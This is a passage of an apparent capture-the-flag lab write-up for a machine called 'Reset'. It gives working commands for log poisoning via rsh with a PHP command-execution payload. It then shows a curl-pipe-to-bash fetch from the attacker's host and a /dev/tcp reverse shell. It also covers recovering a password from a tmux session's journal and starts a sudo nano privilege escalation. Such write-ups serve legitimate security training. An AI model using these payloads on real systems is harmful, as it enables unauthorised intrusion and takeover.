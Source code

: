 Ok now we can read 2 files, ```/var/log/auth.log``` and ```/var/log/syslog```

## Log poisoning

The ```auth.log``` file is linked to rsh authentication, so we can try log poisoning

```bash
rsh -l root 10.10.90.125 '<?=`$_GET[0]`?>'
```
We can now send requests like:

```console
http://10.10.90.125/dashboard.php?cmd=whoami
```
In order to get the response you do need to look at the auth.log file otherwise it wont work!!!

Now get a reverse shell

```console
http://10.10.90.125/dashboard.php?cmd=curl%20http://10.8.2.163/x|/bin/bash
```
```bash
# Content of "x"

#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.8.2.163/9001 0>&1'
```
## SADM

Ok now if we check in which groups we are with ```id```, we can see ```adm```

That means that we can read most of the log file

There is also a tmux session as the ```sadm user```, because we are part of this group we can also read logs of particular processes

```bash
sadm         736  0.0  0.3   8636  3800 ?        Ss   19:00   0:00 tmux new-session -d -s sadm_session
```
```bash
journalctl _PID=736
```
In the output we find the ```sadm``` password, login as ```sadm``` and check sudo rights

## Privesc on Reset

```bash
sadm@reset:~$ sudo -l
[sudo] password for sadm:
Matching Defaults entries for sadm on reset:
    env_reset, timestamp_timeout=-1, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, !syslog

User sadm may run the following commands on reset:
    (ALL) PASSWD: /usr/bin/nano /etc/firewall.sh
    (ALL) PASSWD: /usr/bin/tail /var/log/syslog
    (ALL) PASSWD: /usr/bin/tail /var/log/auth.log
```
So we can just open ```/etc/firewall.sh``` with ```nano``` and execute something
